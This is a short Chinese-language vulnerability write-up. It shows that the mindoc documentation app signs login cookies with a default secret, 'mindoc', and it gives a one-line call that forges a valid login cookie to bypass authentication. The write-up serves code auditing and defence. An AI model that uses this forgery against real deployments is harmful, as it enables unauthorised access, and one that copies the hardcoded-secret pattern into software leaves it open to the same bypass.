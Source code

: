 ## 1.自生成secureCookie可伪造

一些单独开发的程序，采用自己生成的secureKey存在伪造的风险。可能导致权限绕过。

### 实列：

项目地址：https://github.com/mindoc-org/mindoc

```go
func (ctx *Context) SetSecureCookie(Secret, name, value string, others ...interface{}) {

	vs := base64.URLEncoding.EncodeToString([]byte(value))

	// 当前时间
	timestamp := strconv.FormatInt(time.Now().UnixNano(), 10)

	// sha256
	h := hmac.New(sha256.New, []byte(Secret))

	fmt.Fprintf(h, "%s%s", vs, timestamp)

	// Sum 将当前散列附加到 b 并返回结果切片。它不会改变底层哈希状态。
	sig := fmt.Sprintf("%02x", h.Sum(nil))

	// 组合生成cookie
	cookie := strings.Join([]string{vs, timestamp, sig}, "|")

	ctx.Output.Cookie(name, cookie, others...)
}
//app_key 为Secret ,mindoc。

func GetAppKey() string {
	return web.AppConfig.DefaultString("app_key", "mindoc")
}

接使用就可以构造出login,cookie。感觉很像shiro的RememberMe。
SetSecureCookie("mindoc", "login", v, time.Now().Add(time.Hour*24*30).Unix())
```

通过查看代码获取到Secret等参数，可直接调用程序生成cookie

![1](权限认证/1.png)



## 参考链接：

https://forum.butian.net/share/928